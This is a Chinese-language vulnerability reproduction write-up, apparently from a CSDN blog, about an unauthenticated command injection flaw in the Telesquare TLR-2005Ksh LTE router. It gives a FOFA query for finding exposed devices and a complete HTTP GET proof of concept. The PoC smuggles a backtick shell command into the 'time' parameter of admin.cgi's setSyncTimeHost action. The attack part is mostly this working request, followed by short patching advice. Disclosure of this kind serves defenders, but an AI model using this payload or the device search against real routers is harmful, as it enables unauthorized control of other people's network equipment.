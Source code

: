 
# Telesquare TLR-2005Ksh 路由器 RCE 漏洞复现

### 0x01 产品简介

 Telesquare Tlr-2005Ksh 是韩国 Telesquare 公司的一款 Sk 电讯 [Lte](https://so.csdn.net/so/search?q=Lte&spm=1001.2101.3001.7020) 路由器。

### 0x02 漏洞概述

  Telesquare TLR-2005Ksh 存在[安全漏洞](https://so.csdn.net/so/search?q=%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经授权的攻击者可通过 setSyncTimeHost 执行任意命令获取服务器权限。

### 0x03 复现环境

FOFA：app="TELESQUARE-TLR-2005KSH"

![](assets/1701050067-ba84a48a2134ad37295bb40866e5d397.png)

### 0x04 漏洞复现 

PoC

```cobol
GET /cgi-bin/admin.cgi?Command=setSyncTimeHost&time=`id>1.txt` HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

![](assets/1701050067-abff98e50c273778fe3e19280e425939.png)

PS:将命令执行结果写进 txt

验证

![](assets/1701050067-8212776ddb2e06f8e5bb1fc0667d691a.png)

### 0x05 修复建议

关闭互联网暴露面或者接口设置访问权限

升级至安全版本
